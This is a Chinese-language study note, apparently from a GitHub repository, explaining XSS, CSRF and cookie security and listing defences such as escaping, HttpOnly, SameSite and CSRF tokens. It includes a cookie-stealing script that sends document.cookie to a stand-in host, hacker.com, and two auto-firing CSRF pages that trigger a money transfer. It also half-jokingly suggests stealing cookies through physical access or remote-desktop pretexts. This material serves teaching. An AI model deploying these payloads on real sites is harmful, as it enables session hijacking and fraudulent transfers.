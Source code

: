 # Web 安全

## XSS
为了避免跟 CSS 的缩写混淆，Cross-Site Script 的缩写是 XSS。它是通过一些手段在受害者的网页上植入一些 JS 脚本，然后执行后续攻击逻辑 (如：修改 DOM 将黑客自己的收款码贴上来、获取 Cookie 并发送到黑客的服务器等等)。

XSS 攻击分为 3 种：存储型、反射型、DOM 型。前两个是后端的锅，第三个是前端的锅。最主要的防范方法就是前后端都要对那些会被插入到 HTML 中的内容做特殊字符转义。

其它内容自己看参考资料，我这里没必要重复写一遍。

## CSRF
CSRF 攻击分为：GET 类型、POST 类型、链接类型。

CSRF 攻击一般需要受害者已经登录过目标站点 (保存过 Cookie)，否则一般造不成什么损失，所以我们在 Cookie 章节细讲。

其它内容自己看参考资料，我这里没必要重复写一遍。

## Cookie
我们会将用户身份标识信息 (看起来是很长的一串乱码) 放在 Cookie 当中，HTTP 请求发送给服务器后，服务器根据 Cookie 是否正确来判断身份。所以 Cookie 就成了重点攻防目标，对此主要有两种攻击思路。
- 窃取 Cookie，然后黑客就能伪装成用户进行转账操作
- 不窃取 Cookie，通过 CSRF 让用户在不知情的情况下发起转账的 HTTP 请求

窃取 Cookie 的笨办法：
- 可以直接把用户电脑偷偷拿出来，打开浏览器进入淘宝，然后在开发者工具中可以查看网站的 Cookie，把这个 Cookie 复制出来，最后把电脑偷偷放回去
- 找一些借口 (如：维修电脑)，用 QQ 远程桌面控制等方法远程控制用户的电脑，然后打开浏览器将 Cookie 复制出来

### XSS 窃取 Cookie
通过 XSS 漏洞注入下面这样的 JS 脚本。

```javascript
var cookie = document.cookie;  // 1. 获取 Cookie 信息
var xhr = new XMLHttpRequest();
xhr.open('http://hacker.com?cookie=' + cookie);  // 2. 将 Cookie 信息发送到黑客服务器
xhr.send();
```

### CSRF 无需窃取 Cookie
假设 A 站点是黑客的网站，黑客诱导用户进入 A 网站，然后 A 站点会给 B 站点发送 HTTP 请求。比如说 B 站点的转账接口是这样的：`b.com/withdraw?account=bob&amount=10000&for=mallory`。A 站只要给这个 URL 发送 HTTP 请求，浏览器会带上受害者的 Cookie，就攻击成功了。

A 站点可以这样设计来自动发起 CSRF GET 请求：
```html
<html>
<body>
    <img src="http://b.com/withdraw?account=bob&amount=10000&for=mallory" />
</body>
</html>
```

A 站点也可以这样设计来自动发起 CSRF POST 请求：
```html
<html>
<body>
  <form id='hacker-form' action="http://b.com/pay" method=POST>
    <input type="hidden" name="account" value="bob" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="mallory" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

### Cookie 攻防总结
XSS 攻击的防范：
- 最好前后端都对 `<script>` 做过滤或转义，避免留下 XSS 漏洞
- 给敏感的 Cookie 加上 HttpOnly 属性，不敏感的不需要加以便简化开发

CSRF 攻击的防范：
- Cookie 加上 SameSite 属性
- 服务器验证 HTTP 请求头中的 Referer、Origin 字段，验证请求发起的来源
- 使用 CSRF Token

其它注意：
- 特别敏感的操作要进行二次验证 (如短信验证码)

## 参考资料
这里给的参考资料都是好啃的，一定要自己去看，对于网上已经整理的很好的知识，我不会再写一遍。

- 美团技术团队的：[前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)
- 美团技术团队的：[前端安全系列（二）：如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)
- MDN 的文档: [HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
